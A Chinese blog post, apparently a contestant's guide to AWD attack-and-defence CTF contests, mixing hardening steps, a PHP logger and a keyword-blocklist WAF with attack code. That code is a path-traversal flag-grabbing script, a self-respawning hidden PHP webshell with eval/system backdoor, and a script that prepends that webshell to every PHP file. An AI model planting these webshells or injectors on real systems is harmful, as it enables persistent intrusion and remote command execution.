

开局一张图，内容全靠编

AWD是什么 Attack With Defence，简而言之就是你既是一个hacker，又是一个manager。比赛形式：
AWD题目类型 题目类型
只了解web的哭了
出题人自己写的或者修改的cms，附加了一些常见web漏洞。
常见或者不常见的cms。
一些框架漏洞，比如thinkphp，flask这种。
漏洞类型 基本上web常见漏洞都会有，pwn爷爷和其他的就不清楚了。
出题人思路 一般来说比较多见的是某些cms漏洞，为了减少现场挖洞的难度，一般出题人会放置一些很明显的漏洞代码，获取一些常用的web工具（漏洞工具），等等，再放几个比较简单的洞，直接在index.php或者web根目录下放个一句话木马。
如何攻击
AWD模式的比赛跟日常的渗透测试有共同之处。
如何拿flag 一般来说就是以下两种模式：
向内网一台机器发送http请求，返回请求中包含flag。
又例如系统根目录下放置flag文件。
一个良好的竞赛者需要的品质
快速的漏洞反应能力。 因为有的时候，一些比赛放的漏洞都是网上能查到的，所以这个时候需要一个好的搜索技巧。或者是一些rec显而易见的那种。快速编写脚本的能力。 因为大家的服务都是一样的，而你如果能通过比如注入的方式拿到flag，如果用hackbar一个个去弄，显然不够优雅，而且有时候特别会容易遗漏，那么这个时候写个小python脚本无疑是极好的。
如何防守
其实防守更多看的是谁比较细心。适合运维人员。
比赛开始的加固阶段
接下来的工作
当发现被攻击时
附上小脚本： 木马 各种不死马、内存马啥的，都可以派上用场。这里就不展示了。
日志记录 1 2 3 4 5 6 7 8 9 10 11 12 13 14 <!-- 日志记录脚本 --> <?php date_default_timezone_set("Asia/Shanghai" ); $ip = $_SERVER['REMOTE_ADDR' ]; $filename = $_SERVER['PHP_SELF' ]; $parameter = $_SERVER['QUERY_STRING' ]； $time = date('Y-m-d H:i:s' , time()); $logadd = '访问时间：' .$time.'-->' .'访问链接：' .'http://' .$ip.$filename.'?' .$parameter."\r\n" ; $fh = fopen("log.txt" , "a" ); fwrite($fh, $logadd); fclose($fh); ?>
简单的waf示例 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 <?php error_reporting(0 ); define('LOG_FILENAME' ,'log.txt' ); function waf () { if (!function_exists('getallheaders' )) { function getallheaders () foreach ($_SERVER as $name => $value) { if (substr($name, 0 , 5 ) == 'HTTP_' ) $headers[str_replace(' ' , '-' , ucwords(strtolower(str_replace('_' , ' ' , substr($name, 5 )))))] = $value; } return $headers; } } $get = $_GET; $post = $_POST; $cookie = $_COOKIE; $header = getallheaders(); $files = $_FILES; $ip = $_SERVER["REMOTE_ADDR" ]; $method = $_SERVER['REQUEST_METHOD' ]; $filepath = $_SERVER["SCRIPT_NAME" ]; foreach ($_FILES as $key => $value) { $files[$key]['content' ] = file_get_contents($_FILES[$key]['tmp_name' ]); file_put_contents($_FILES[$key]['tmp_name' ], "virink" ); } unset ($header['Accept' ]); $input = array ("Get" =>$get, "Post" =>$post, "Cookie" =>$cookie, "File" =>$files, "Header" =>$header); $pattern = "select|insert|update|delete|and|or|\'|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile|dumpfile|sub|hex" ; $pattern .= "|file_put_contents|fwrite|curl|system|eval|assert" ; $pattern .="|passthru|exec|system|chroot|scandir|chgrp|chown|shell_exec|proc_open|proc_get_status|popen|ini_alter|ini_restore" ; $pattern .="|`|dl|openlog|syslog|readlink|symlink|popepassthru|stream_socket_server|assert|pcntl_exec" ; $vpattern = explode("|" ,$pattern); $bool = false ; foreach ($input as $k => $v) { foreach ($vpattern as $value){ foreach ($v as $kk => $vv) { if (preg_match( "/$value/i" , $vv )){ $bool = true ; logging($input); break ; } } if ($bool) break ; } if ($bool) break ; } } function logging ($var) file_put_contents(LOG_FILENAME, "\r\n" .time()."\r\n" .print_r($var, true ), FILE_APPEND); } waf(); ?>
再更新：
之前也受星盟安全团队邀请，玩过几次AWD，再记录下。
比赛开始 相关条目来自郁离歌大哥的经验：http://yulige.top/?p=394
0X01 改ssh密码（如果是默认的就改）
0X02 dump源码/var/www/html目录下，执行命令zip -qr www.zip。/var/www/html目录下，再执行命令unzip www.zip，unzip -l www.zip用于查看压缩文件中包含的文件。
可恨的是原始的靶机有时候并没有预置zip命令。还是MobaXtern这种自带ftp的ssh工具好用。
0X03 修改数据库密码和备份数据库
修改密码：
set password for root@localhost = password(‘新密码’);
备份
mysqldump -uroot -p密码 –databases 根据配置文件确定数据库 > aaa.sql
备份全部数据库
mysqldump -uroot -p密码 –all-databases > /tmp/all.sql
还原
mysql -uroot -p密码 < aaa.sql
注意是否已经建立了数据库。
0X04 拿到源码之后先D盾查杀
0X05. seay扫洞（没啥大用处，一般题目代码量不会很大）
0X06. 上监控脚本
0X07. 审计
0X08. 时刻关注流量和积分榜
0X09. 写脚本批量拿分和提交
批量获取flag和提交的脚本 （视比赛平台而定）
关于自动提交flag函数中的headers，应该只要Content-Type和Cookie就行。视情况而定吧，实在不能自动提交，就抓包把所有的请求头都写上。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 import requestsimport redef submit_flag (flag) : url = 'http://39.100.119.37:10000/commit/flag' headers = {'Host' : '39.100.119.37:10000' ,'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0' ,'Accept' : 'application/json, text/javascript, */*; q=0.01' ,'Accept-Language' : 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' ,'Accept-Encoding' : 'gzip, deflate' ,'Content-Type' : 'application/json; charset=UTF-8' ,'X-Requested-With' : 'XMLHttpRequest' ,'Connection' : 'close' ,'Referer' : 'http://39.100.119.37:10000/admin' ,'Cookie' : 'PHPSESSID=7loc4cqkqudv3v0g85a0h77586' } data = '{"flag":"' + flag + '","token":"8c7889befd2f3bf81d23e0f0b4a9c831"}' print(data) req = requests.post(url,data=data,headers=headers) print(req.text) def get_flag_by_post () : for _ in range(1 ,13 ): if _ <10 : _ = '0' + str(_) _ = str(_) url = 'http://47.56.9.150:1{}80/download.php' .format(_) post_data = {'filename' :'../../../../flag' } print(url) req = requests.post(url=url,data=post_data) if req.status_code ==404 : continue submit_flag(req.text) def get_flag_by_post2 () : for _ in range(1 ,13 ): if _ <10 : _ = '0' + str(_) _ = str(_) url = 'http://47.56.9.150:1{}80/download.php' .format(_) post_data = {'filename' :'../../../../flag' } print(url) try : req = requests.post(url,data=data) if req.status_code == 404 : continue submit_flag(req.text) except Exception as e: print(e) continue
一些tip 如果遇到冰蝎马 这种后门，是不能直接写脚本批量获取flag的，这时候就要尽快通过冰蝎连接shell，种下不死马。
D盾扫出来的后门毕竟一下就被修复了。还需要队员进行全盘的代码审计，如文件读取，万能密码绕过登录，文件上传，反序列化等等。拿到一个权限后，就批量打一会，再种个不死马维持一下。
不死马/内存马 保存为 .index.php隐藏文件，上传到对方服务器，然后浏览器访问去触发，就会生成 .config.php隐藏文件。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php unlink(__FILE__ ); set_time_limit(0 ); ignore_user_abort(true ); $path = dirname(__FILE__ ); $file = $path . '/.config.php' ; $shell = "<?php if (md5(\$_REQUEST['pass'])==='91b37b09623a404b281e69932abb97df'){@eval(\$_REQUEST['code']);@system(\$_REQUEST['sys']);exit();} ?>" ; while (true ){ file_put_contents($file, $shell); system('chmod 777 .config.php;' ); usleep(15000000 ); } ?>
即使删除了.config.php，15秒后也会出现；即使删除了.index.php，.config.php文件15秒后还是会出现（亲测）。
在目录下的所有PHP文件前加木马 星盟周年庆的时候看到别人的骚思路，自己写了个类似的功能。aa.php不能告诉你，每次比赛都要换一下。
1 2 3 4 5 6 7 8 9 10 11 12 <?php $shell = "<?php if (md5(\$_REQUEST['pass'])==='91b37b09623a404b281e69932abb97df'){@eval(\$_REQUEST['code']);@system(\$_REQUEST['sys']);exit();} ?>" ."\n" ; foreach (glob('*.*' ) as $filename){ if ($filename != "aa.php" ){ $content = file_get_contents($filename); $content = $shell.$content; unlink($filename); file_put_contents($filename, $content); } } ?>
只针对aa.php文件下的所有PHP文件。
next to Do：
一个好的waf 、一个流量审计的脚本


评论加载中